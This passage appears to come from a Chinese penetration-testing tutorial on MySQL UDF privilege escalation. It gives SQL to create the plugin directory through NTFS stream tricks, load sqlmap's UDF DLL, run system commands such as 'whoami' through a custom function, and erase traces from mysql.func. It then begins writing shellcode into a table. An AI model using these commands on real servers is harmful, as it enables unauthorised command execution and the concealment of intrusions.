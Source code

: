 * 创建导出文件夹

1. 通过sql语句

```sql
select 'xxx' into dumpfile 'Mysql目录\\lib::$INDEX_ALLOCATION';
select 'xxx' into dumpfile 'Mysql目录\\lib\\plugin::$INDEX_ALLOCATION';
```

2. 通过webshell进行可视化创建

##### c. 导入udf文件

* 将sqlmap的udf文件上传到指定目录(/lib/plugin/)
* `sqlmap\data\udf\mysql\`目录中的dll文件是通过**异或编码**的，可以使用`sqlmap\extra\cloak.py`进行解密

##### d. 创建自定义函数

![可使用自定义函数](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410282001273.png)

##### e. 执行语句

* 通过调用自定义函数，执行命令

  ```sql
  select state('whoami');
  ```

###### f. 清除痕迹

```sql
drop function state;
delete from mysql.func where name='state';
```

#### (5). 实例

1. 成功连接数据库

   ![成功连接数据库](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281722462.png)

2. 查看默认安装路径及相应信息

   ```
   select @@basedir,version()
   select version()
   ```

   ![mysql相关信息](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300907224.png)

3. 执行sql语句，将hex编码写入udf3.dll文件

   1. 创建表

   ```
   create table udf(shellcode BLOB);
   ```

   ![创建表](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300908429.png)

